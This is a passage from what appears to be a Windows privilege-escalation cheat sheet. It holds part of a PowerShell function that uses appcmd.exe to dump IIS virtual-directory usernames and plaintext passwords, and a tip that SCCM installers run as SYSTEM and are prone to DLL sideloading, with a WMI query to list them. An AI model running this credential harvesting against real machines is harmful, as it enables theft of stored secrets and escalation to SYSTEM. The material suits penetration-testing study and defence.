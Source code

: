 ```bash
            $VdirUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:userName"
            $VdirUser = Invoke-Expression $VdirUserCmd

            # Get password
            $VdirPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:password"
            $VdirPassword = Invoke-Expression $VdirPasswordCmd

            # Check if credentials exists
            if (($VdirPassword -ne "") -and ($VdirPassword -isnot [system.array])) {
                # Add credentials to database
                $Null = $DataTable.Rows.Add($VdirUser, $VdirPassword,'Virtual Directory',$VdirName,'NA')
            }
        }

        # Check if any passwords were found
        if( $DataTable.rows.Count -gt 0 ) {
            # Display results in list view that can feed into the pipeline
            $DataTable |  Sort-Object type,user,pass,vdir,apppool | Select-Object user,pass,type,vdir,apppool -Unique
        }
        else {
            # Status user
            Write-Verbose 'No application pool or virtual directory passwords were found.'
            $False
        }
    }
    else {
        Write-Verbose 'Appcmd.exe does not exist in the default location.'
        $False
    }
    $ErrorActionPreference = $OrigError
}
```

### SCClient / SCCM

Check if `C:\Windows\CCM\SCClient.exe` exists .\
Installers are **run with SYSTEM privileges**, many are vulnerable to **DLL Sideloading (Info from** [**https://github.com/enjoiz/Privesc**](https://github.com/enjoiz/Privesc)**).**

```bash
$result = Get-WmiObject -Namespace "root\ccm\clientSDK" -Class CCM_Application -Property * | select Name,SoftwareVersion
if ($result) { $result }
else { Write "Not Installed." }
```

## Files and Registry (Credentials)
